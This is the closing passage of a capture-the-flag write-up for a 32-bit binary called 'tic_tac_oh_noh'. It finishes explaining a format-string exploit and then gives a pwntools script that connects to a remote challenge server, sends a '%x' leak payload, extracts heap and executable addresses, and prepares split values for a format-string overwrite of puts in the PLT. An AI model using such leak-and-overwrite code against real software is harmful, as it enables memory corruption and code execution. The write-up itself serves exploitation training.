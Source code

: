 Last, we have to make sure there is some padding so we don't have to be as precise, and recalculate our target positions so we are properly aligned (stack position 72 will no longer work at this point). In order to do that we count how many bytes we have in our payload (72+16=88) divide it by 4 (x86 32-bit uses 4 byte addresses right?) which gives us 22. __NOTE* This MUST be evenly divisible otherwise your exploit may not work.__ Now after adjusting out offset our stack_target location will be at offset 94. Run our script and get the flag!

![get the flag](images/done.png)

----

# Proof of Exploit/Solution
## Leak Script
```python
from pwn import *
import socket

context.log_level = 'info'

c = remote("104.196.106.59", 7221)
#c = process('./tic_tac_oh_noh')

# gdb.attach(c, """
#     display /xw 0x56558034
#     b *0x56555d0b
#     b *0x56555d11
#     c
#     """)

def send_exploit(arg):
    for x in range(len(arg)):
        c.sendline(arg[x])

log.warning("Gathering leak information for exploit")
c.sendline("A")
c.sendline("x")
send_exploit('AAA' + ".%x"*100)
c.sendline("q")
c.recvuntil("\x1b[8m")
useful_data = c.recv()
log.info(useful_data)
heap_location = "0x" + useful_data[70:77]
executable_location = "0x" + useful_data[5:13]
log.warning("""
Found the following addresses:
\tHeap is located at  \t {0}
\tMmap area located at\t {1}\n""".format(heap_location, executable_location))
c.close

puts_plt_upper = p32(int(heap_location,16)-0x1008+0x30)
puts_plt_lower = p32(int(heap_location,16)-0x1008+0x2e)
#72x
log.warning("Building exploit\n")
log.info("Locating puts() in the PLT @ {}\n".format(hex(int(heap_location,16)-0x1008+0x30)))
log.info("Building shellcode\n")

second_half = (int(executable_location, 16) & 0xffff)
first_half = ((int(executable_location, 16) >> 16) - second_half)

log.warning(str(first_half) + "\n" + str(second_half))

```